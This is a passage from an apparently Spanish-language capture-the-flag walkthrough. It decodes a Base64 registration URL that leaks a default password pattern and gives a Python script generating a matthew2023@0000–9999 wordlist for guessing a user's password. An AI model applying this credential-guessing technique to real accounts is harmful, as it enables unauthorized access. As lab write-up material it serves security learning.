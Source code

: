 Veremos varias cosas interesantes, entre ellas este archivo llamado `create_account.php`, vamos a entrar dentro de dicho archivo a ver que nos encontramos.

```
URL = http://<IP>/create_account.php
```

Veremos que nos aparecera una campo en el que tendremos que ingresar nuestro nombre, por lo que vamos a poner `test`, una vez echo esto veremos lo siguiente en la pagina:

```
Successful registration
```

Y en la `URL` veremos esto otro:

```
http://<IP>/success.php?dXNlcm5hbWU9dGVzdCZwYXNzd29yZD10ZXN0MjAyNUA4OTUy
```

Vemos que se nos genera una cadena codificada en `Base64`, vamos a decodificarla de esta forma:

```shell
echo "dXNlcm5hbWU9dGVzdCZwYXNzd29yZD10ZXN0MjAyNUA4OTUy" | base64 -d
```

Info:

```
username=test&password=test2025@8952
```

Vemos que se ingresa el usuario que nosotros metemos y que despues se genera una contraseña por defecto que te genera la pagina web, por lo que podemos deducir que el usuario `matthew` puede tener dicha contraseña por defecto que te da la web siguiendo esta estructura:

```
usuario + año + @ + num_aleatorio
```

Tambien vemos que el `output` esta en el `2023-01-28` por lo que seguramente el año de la cuenta de la password sea con dicho año, vamos a ponarnos un script que nos genere dicha password con los numeros aleatorios, pero con esa estructura y con ese año.

> generate\_dic.py

```python
# Generador de diccionario: matthew2023@0000 - matthew2023@9999

with open("diccionario.txt", "w") as f:
    for i in range(10000):
        palabra = f"matthew2023@{i:04d}"
        f.write(palabra + "\n")

print("Diccionario generado como diccionario.txt")
```

Ahora si ejecutamos esto:

```shell
python3 generate_dic.py
```
